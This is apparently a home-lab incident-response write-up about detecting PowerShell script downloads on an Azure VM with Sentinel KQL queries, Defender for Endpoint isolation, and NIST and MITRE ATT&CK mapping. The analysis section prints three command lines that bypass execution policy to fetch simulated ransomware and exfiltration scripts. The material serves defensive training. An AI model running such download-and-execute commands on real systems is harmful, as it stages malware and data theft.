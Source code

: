 # 🚨  PowerShell-Suspicious-Web-Request-on-Azure-VM

## 🧩 Scenario Overview
A suspicious use of PowerShell’s Invoke-WebRequest was detected on an Azure virtual machine (LabWill-vm-mde). The event triggered an alert in Microsoft Sentinel, indicating a potential malware infection via script downloads.

This investigation was conducted in alignment with the **NIST SP 800-61 Incident Response Framework** and relevant **MITRE ATT&CK TTPs**.

## 🎯 Objective
Detect, analyze, contain, and mitigate malicious PowerShell script activity using:
- **Microsoft Sentinel (SIEM)**
- **Defender for Endpoint (MDE)**
- **NIST 800-61 Lifecycle**
- **MITRE ATT&CK techniques**

## 📌 Phase 1: Preparation — Create Alert Rule on Sentinel
A Scheduled Query Rule was created in Microsoft Sentinel to detect when PowerShell is used with Invoke-WebRequest:

```kusto
let TargetDevice = "labwill-vm-mde";
DeviceProcessEvents
| where DeviceName == TargetDevice 
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated
```
![KQL results](https://github.com/user-attachments/assets/da48fe2c-2d22-4050-8b09-c8e1ce9ec615)

---

## ⚠️ Phase 2: Detection - Incident Triggered
- **Alert Title**: `LabWill-PowerShell Suspicious Web Request`
- **Target Device**: `LabWill-vm-mde`
- **Process Detected**: `powershell.exe`
- **Impact**: Download of 3 scripts via 3 separate commands
- 
Once the alert rule triggered, Microsoft Sentinel automatically generated an incident and produced an investigation map based on the detected activity.
![MS Sentinel Incident mapping](https://github.com/user-attachments/assets/6beb3aa2-ad04-4c68-bacd-e970e96b09ee)

---

## 🕵️ Phase 3: Analysis
🔍 PowerShell Commands Identified

```kusto
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../eicar.ps1 -OutFile C:\programdata\eicar.ps1
```

**User Interview**: The user reported attempting to install a free piece of software. A black screen briefly appeared, then nothing else happened.

✅ Execution Confirmation (via MDE)
Verified that the scripts were executed using the query below:

```kusto
let TargetHostname = "labwill-vm-mde";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| summarize Count = count() by AccountName, DeviceName, FileName, ProcessCommandLine
```
---

## 🧪 Reverse Engineering: Script Summaries
Scripts were analyzed by the malware reverse engineering team. Here are their one-liners:

| Script Name             | Function                                                                                                                       |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------------------ |
| `📄 pwncrypt.ps1`       | Simulates ransomware: encrypts fake data on the user's desktop, drops ransom notes demanding Bitcoin.                          |
| `📄 exfiltratedata.ps1` | Generates fake employee data, compresses it, and exfiltrates to an Azure Blob Storage container.                               |
| `📄 eicar.ps1`          | Deploys the standard to simulate malware detection.                                                                            |

---

## 🧯 Phase 4: Containment, Eradication & Recovery

| Action        | Details                                               |
| ------------- | ----------------------------------------------------- |
| 🛡️ Isolation | Device isolated using Microsoft Defender for Endpoint |
| 🧼 Scan       | Full anti-malware scan completed                      |
| ✅ Recovery    | Machine released from isolation after clean scan      |

---

## 📘 Phase 5: Post-Incident Actions
- 🧠 The affected user was enrolled in additional cybersecurity awareness training, with more frequent sessions.
- 🔒 Implemented policy to restrict PowerShell usage to essential personnel only.

---

## 🧠 Framework Alignment
## ✅ NIST 800-61 Phases

| Phase                         | Action Taken                                       |
| ----------------------------- | -------------------------------------------------- |
| **Preparation**               | Created Sentinel alert rule                        |
| **Detection & Analysis**      | Investigated PowerShell commands and user behavior |
| **Containment & Eradication** | Isolated and cleaned the system                    |
| **Recovery**                  | Verified no further threat before un-isolating     |
| **Post-Incident Activity**    | Policy and training improvements                   |

## 🎯 MITRE ATT&CK Techniques

| ID          | Name                                           |
| ----------- | ---------------------------------------------- |
| `T1059`     | Command and Scripting Interpreter (PowerShell) |
| `T1105`     | Ingress Tool Transfer (script download)        |
| `T1567.002` | Exfiltration Over Web Service: Cloud Storage   |

---

## Created By:
- **Author Name**: Tinan Makadjibeye  
- **Author Contact**: [LinkedIn profile](https://www.linkedin.com/in/makadjibeye-tinan)  
- **Date**: June 2025
  
---
